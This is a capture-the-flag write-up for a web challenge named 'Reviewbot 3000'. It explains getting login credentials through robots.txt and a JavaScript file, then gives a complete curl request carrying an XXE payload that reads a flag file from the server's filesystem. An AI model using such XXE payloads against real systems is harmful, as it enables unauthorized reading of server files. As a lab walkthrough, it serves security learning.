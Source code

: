 ```yaml
---
date: '2025-08-25T13:40:51+05:30'
title: 'Reviewbot 3000'
tags:
- web
- XXE
- python
---
```


XXE is one of those things you never expect to be present but it somehow makes it way to a web chall.

<!--more-->

## Recon

### Challenge description

This challenge's description tells that the bot responds to all forms of input - text, even JSON.

The website at `https://techpulse.gencyscorp.in/login` requires logging in with credentials.

## Solve

### Login

Enumerate `robots.txt` to find the password from `https://techpulse.gencyscorp.in/js/auth.js` and the username is `ctf-player`. The result is that the followign cookies are set.

```
X-token: 43334random
X-Challenge-Id: 1
```

### XXE

After further enumeration, the site has a page for giving feedback for products. It makes POST request with formdata body.

It also gives a successful redirect to a JSON body.

So, why not try good ol' XXE?!

```sh
$ curl -s -X POST 'https://techpulse.gencyscorp.in/api/success-review' \
  -H 'X-token: 43334random' \
  -H 'X-Challenge-Id: 1' \
  -H 'Content-Type: application/xml' \
  -d '<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE request [ <!ENTITY xxe SYSTEM "file:///proc/self/cwd/flag.txt"> ]> <request> <comment>&xxe;</comment> <score>42</score> </request>' | jq .comment_received -r
```

This request gets the flag successfully.

## Flag

`USTCtf{REDACTED}`

Note: Flag has been redacted.
